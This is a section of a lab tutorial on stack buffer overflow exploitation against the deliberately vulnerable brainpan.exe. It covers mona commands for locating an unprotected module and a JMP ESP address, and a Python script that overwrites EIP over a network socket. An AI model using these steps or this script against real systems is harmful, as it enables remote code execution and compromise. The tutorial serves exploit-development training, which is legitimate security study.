


# Finding the Correct Module

Our objective is to identify a `dll` or a similar component within the `brainpan.exe` that lacks memory protection settings. To accomplish this, we will utilize the `mona` tool, which can assist in finding the correct module. You can use the following command to list all modules within `brainpan.exe`:

```cli
!mona modules
```


As seen in the screenshot above, all the `dll` files have memory protection enabled. However, `brainpan.exe` is devoid of memory protection, making it the ideal choice for our target module. Our next step involves identifying an opcode equivalent to `JMP ESP`. To achieve this, we will rely on the `Metasploit` module name `nasm_shell.rb`.



From the screenshot above, it's evident that the opcode we seek is `FFE4.` To pinpoint the memory address containing the `FFE4` (JMP ESP) opcode within `brainpan.exe,` we can utilize the following `mona` command:

```cli
!mona find -s "\xff\xe4" -m brainpan.exe
```


As we can see in the screenshot above, we have identified the memory address that contains the `JMP ESP` opcode, which is `311712F3` memory address. Our next goal is to gain full control of the `EIP` (Extended Instruction Pointer). We can accomplish this by setting a breakpoint at the `311712F3` address within `Immunity Debugger,` overflowing the buffer, and placing `311712F3` in `EIP` to verify if our breakpoint activates. To facilitate this, we can adjust our Python script and insert the return address, which should be in reverse order (`\xf3\x12\x17\x31`). I have provided an updated script named [brainpan_jmp_esp.py](https://github.com/cris-m/buffer_overflow_exploit_development/blob/main/assets/resources/brainpan_jmp_esp.py):

```python
#!/usr/bin/python3
import sys
import socket
from time import sleep

# Our JMP ESP address is at 0x311712f3

buffer = b"A" * 510 + b"\xf3\x12\x17\x31"

while True:
    try:
        sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        sock.connect(('192.168.10.4', 9999))
        payload = b'shitstorm /.:/' + buffer
        sock.send(payload)
        sock.close()
    except:
        print("Error connecting to the server")
        sys.exit()
```

Executing the above script will trigger a breakpoint directly in `Immunity Debugger,` pausing the execution process.



As evident from the screenshot, we have successfully triggered our breakpoint, indicating that we now possess full control over the `EIP.` This allows us to execute any shellcode necessary to compromise our target machine.

___

Next, we'll proceed to [Generating Shellcode](https://github.com/cris-m/buffer_overflow_exploit_development/blob/main/assets/documentations/shellcode.md)